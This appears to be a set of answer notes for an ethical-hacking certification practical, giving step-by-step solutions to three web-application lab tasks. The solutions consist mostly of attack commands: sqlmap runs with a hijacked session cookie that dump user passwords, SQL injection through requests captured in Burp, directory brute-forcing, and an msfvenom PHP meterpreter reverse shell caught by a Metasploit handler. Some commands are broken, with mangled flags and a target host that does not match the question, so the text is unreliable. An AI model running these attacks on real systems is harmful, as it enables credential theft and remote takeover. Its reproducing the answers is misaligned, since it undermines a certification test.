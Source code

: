 12.Perform an SQL injection attack on your target web application cinema.cehorg.com and extract the password of a user Sarah. You have already registered on the website with credentials Karen/computer.

```bash
#abc123
1. now in parrot os, open firefox and login into the website given and details.
2. Go to profile and and right cleck and inspect and console type “document.cookie” you will get one value.
3. Open the terminal and type the below commands to get the password of other user.
4. sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=;" –-dbs
5. sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0"
-D moveiscope – -tables
6. sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0"
-D moviescope -T user-Login – -dump
7. You will get all the Useraname and Passwords of the website.
```

13.Exploit the web application available at www.cehorg.com and enter the flag's value at the page with page_id=84.

```bash
Open the site
change the page ID at the url section to the specified page ID
Find the flag
---
1. nmap -sV --script=http-enum [target domain or IP address]
2. Find any input parameter on website and capture the request in burp and then use it to perform sql
injection using sqlmap.
3. Now open the burp and check the input parameters and intercept on then type some as “1 OR ANY TEXT”
you get some value on burp copy that and create the txt file.(1 OR 1=1 #)
4. sqlmap -r <txt file from burpsuite> --dbs
5. sqlmap -r <txt file from burpsuite> -D <database name> --tables
6. sqlmap -r <txt file from burpsuite> -D <database name> -T <table name> --columns
7. sqlmap -r <txt file from burpsuite> -D <database name> -T <table name> --dump-all
8. then login and do the url parameter change page_id=1 to page_id=84
```

14.Perform vulnerability research and exploit the web application training.cehorg.com, available at 192.168.0.64. Locate the Flag.txt file and enter its content as the answer.

```bash
Directory traversal after dirsearch or gobuster or dirb or dirbuster
dirsearch -u https://example.com
or 
dirsearch -e php,html,js,txt -u https://example.com -> for extension search
or
dirsearch -e php,html,js,txt -u https://example.com -w /usr/share/wordlists/dirb/common.txt -> for wordlist search
#p74NSHXz
---
1. Scan the target with Zap to find the vulnerability. Then exploit it. It can be file upload/ File inclusion
vulnerability on DVWA.
2. msfconsole in one tab && next in a new tab
3. msfvenom -p php/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw >exploit.php
4. >use exploit/multi/handler or use 30
5. >set payload php/meterpreter/reverse_tcp
6. Set LHOST <ip>
7. Upload a file you created as exploit.php
8. Open terminal and type run once you get url type url in brower you get meterpreter session then type ls
get the files.
```